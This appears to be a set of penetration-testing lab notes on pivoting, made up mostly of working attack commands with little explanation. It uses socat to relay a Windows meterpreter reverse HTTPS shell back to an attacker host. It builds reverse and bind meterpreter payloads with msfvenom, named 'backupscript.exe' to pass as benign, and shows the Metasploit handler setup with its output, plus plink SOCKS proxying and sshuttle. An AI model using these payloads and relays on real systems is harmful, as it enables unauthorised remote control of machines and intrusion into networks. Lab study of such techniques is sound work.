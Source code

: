 Startomg Socat Listener
```
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```
Creating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```
Start MSF Console and Configure multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
lport => 80
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:80
```
Establish meterpreter session

## Socat Redirection with a Bind Shell
Creating the Windows Payload
```
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```
Starting Socat Bind Shell Listener
```
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```
Configuring & Starting the Bind multi/handler
```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```
Establish meterpreter session

## SSH for Windows: plink.exe
Plink, short for PuTTY Link, is a Windows command-line SSH tool that comes as a part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.
Using Plink.exe
```
plink -D 9050 ubuntu@10.129.15.50
```
## SSH Pivoting with Sshuttle
Installing sshuttle
```
sudo apt-get install sshuttle
```